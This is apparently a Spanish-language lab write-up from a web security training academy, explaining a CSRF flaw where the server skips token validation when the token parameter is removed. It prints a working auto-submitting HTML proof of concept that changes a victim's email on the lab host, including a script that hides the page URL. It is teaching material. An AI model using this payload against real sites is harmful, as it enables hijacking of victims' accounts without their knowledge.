





Ciertas aplicaciones realizan la validación del token de forma adecuada solo cuando este está incluido; sin embargo, si el token no se envía, omiten la validación por completo.

Esto permite que un atacante eluda la verificación simplemente eliminando por completo el parámetro del token (no solo su valor), lo que abre la posibilidad de ejecutar un ataque CSRF.

## LAB 


En una solicitud POST, el token CSRF se envía junto al correo electrónico en el cuerpo. Para omitir la protección, se puede eliminar el parámetro CSRF o dejarlo vacío, asegurándose de no usar un correo ya registrado según la recomendación del laboratorio.

- Solicitud original



- Solicitud sin el CSRF



- POC :



```html
<!DOCTYPE html>
<html lang="en">
	<body>
  <script>history.pushState('', '', '/')</script>
		<h1>Form CSRF PoC</h1>
		<form method="POST" action="https://0abc003e030a4bca804d0398001600fc.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="test@test.com">
			<input type="submit" value="Submit Request">
		</form>
<script>
    document.forms[0].submit();
</script>
	</body>
</html>
```

En nuestro formulario malicioso, agregaremos:

```html
  <script>history.pushState('', '', '/')</script>
```

que se encargara de cambiar la URL mostrada en la barra del navegador a /, sin recargar la página ni redirigir al usuario

Luego debemos de copiar y pegar en el cuerpo de nuetro servidor malicioso y presionar "Deviler expliot to victim"